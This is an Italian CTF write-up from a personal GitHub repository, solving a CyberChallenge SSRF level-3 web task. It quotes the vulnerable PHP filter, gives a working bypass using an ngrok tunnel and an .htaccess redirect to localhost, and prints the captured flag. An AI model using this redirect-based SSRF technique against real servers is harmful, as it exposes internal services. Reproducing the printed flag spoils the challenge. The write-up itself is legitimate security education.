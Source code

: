 # CTF Writeups & HTB Machines 💀

In questo repository archiviamo tutte le writeups di CTF (Capture The Flag) e macchine HTB (Hack The Box) che ho completato.

## Contenuti 📚
- **CTF Writeups**: Soluzioni dettagliate delle sfide CTF
- **HTB Machines**: Guide complete per le macchine Hack The Box

## Contributi 🤝
Per contribuire con un writeup, contattami via email: `luca.crippa05@gmail.com`

## Licenza ⚖️
Repository condivisa per scopi educativi. Rispetta sempre le policy delle piattaforme quando condividi materiale.

---

# Writeup: WS_1.05 - ssrf basics - level 3

## Overview
- **Categoria:** Web
- **Autore:** bonaff
- **Difficoltà:** 491
- **Stato:** Up (last checked: 15 minutes ago)
- **URL:** [http://ssrf3.challs.cyberchallenge.it/](http://ssrf3.challs.cyberchallenge.it/)

## Descrizione 📝
Il terzo livello della challenge SSRF introduce un controllo più sofisticato rispetto ai livelli precedenti. In questo caso, il server esegue diverse verifiche sull'URL passato tramite il parametro `url`, tra cui:

- Validazione del formato dell'URL.
- Controllo dello schema (accettati solo `http` e `https`).
- Risoluzione dell'host per ottenere il vero indirizzo IP.
- Verifica con la funzione `cidr_match` per bloccare indirizzi locali (es. `127.0.0.1/8` e `0.0.0.0/32`).

Il codice rilevante è il seguente:
```php
function cidr_match($ip, $range){
    list ($subnet, $bits) = explode('/', $range);
    $ip = ip2long($ip);
    $subnet = ip2long($subnet);
    $mask = -1 << (32 - $bits);
    $subnet &= $mask; // in case the supplied subnet was not correctly aligned
    return ($ip & $mask) == $subnet;
}

if(isset($_GET['url']) && !is_array($_GET['url'])){
    $url = $_GET['url'];
    if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
        die('Not a valid URL');
    }
    $parsed = parse_url($url);
    $host = $parsed['host'];
    if (!in_array($parsed['scheme'], ['http','https'])){
        die('Not a valid URL');
    }
    $true_ip = gethostbyname($host);
    if(cidr_match($true_ip, '127.0.0.1/8') || cidr_match($true_ip, '0.0.0.0/32')){
        die('Not a valid URL');
    }
    echo file_get_contents($url);
    return;
}
```
Per aggirare questi controlli, è necessario un approccio indiretto che sfrutti un reindirizzamento controllato.

## Soluzione 🎯

### 1. Configurazione del Reindirizzamento
Per bypassare le restrizioni, si è utilizzato un tunnel ngrok e la configurazione di Apache tramite il file `.htaccess`:
- **Ngrok:** Avvia un tunnel per esporre una porta locale a internet:
  ```bash
  ngrok http 80
  ```
  Questo fornisce un URL pubblico, ad es. `https://your-id.ngrok-free.app`.

- **.htaccess:** Configura Apache in modo che ogni richiesta venga reindirizzata a `http://localhost/get_flag.php`:
  ```apache
  RewriteEngine On
  RewriteRule ^(.*)$ http://localhost/get_flag.php [R=302,L]
  ```

### 2. Esecuzione dell'Exploit
Una volta configurato il tunnel e il file `.htaccess`, è sufficiente inviare una richiesta al livello 3 della challenge con il parametro `url` impostato sull'URL di ngrok:
```
http://ssrf3.challs.cyberchallenge.it/?url=https://your-id.ngrok-free.app
```
Il server, dopo aver validato l'URL (che non risulta appartenere agli indirizzi locali grazie al nome di dominio ngrok), effettua una richiesta a `https://your-id.ngrok-free.app`. A questo punto, il file `.htaccess` reindirizza la richiesta a `http://localhost/get_flag.php`, restituendo il contenuto della flag.

### 3. Ottenimento della Flag
Visitando l'URL sopra, il server risponde con:

## Flag 🏁
```
CCIT{388d0c8b92b617986eb3ba95a07b7342}
```

## Lezioni Apprese 📚
- **Validazione degli IP:** Anche controlli sofisticati come `cidr_match` possono essere bypassati se combinati con reindirizzamenti esterni.
- **Utilizzo di Tunnel:** Ngrok e altri strumenti simili permettono di esporre servizi locali e aggirare filtri basati sull'indirizzo IP.
- **Importanza dei Reindirizzamenti:** La configurazione errata o non adeguatamente protetta dei reindirizzamenti può compromettere la sicurezza del server.

## Tools Utilizzati 🛠️
- **Browser Web:** Per inviare richieste e verificare le risposte.
- **Ngrok:** Per creare un tunnel pubblico e bypassare i controlli IP.
- **Apache .htaccess:** Per configurare il reindirizzamento interno.
- **Terminale Linux:** Per eseguire comandi e configurare l'ambiente di test.

---

*Writeup by Luca Crippa - Last Updated: 2024*
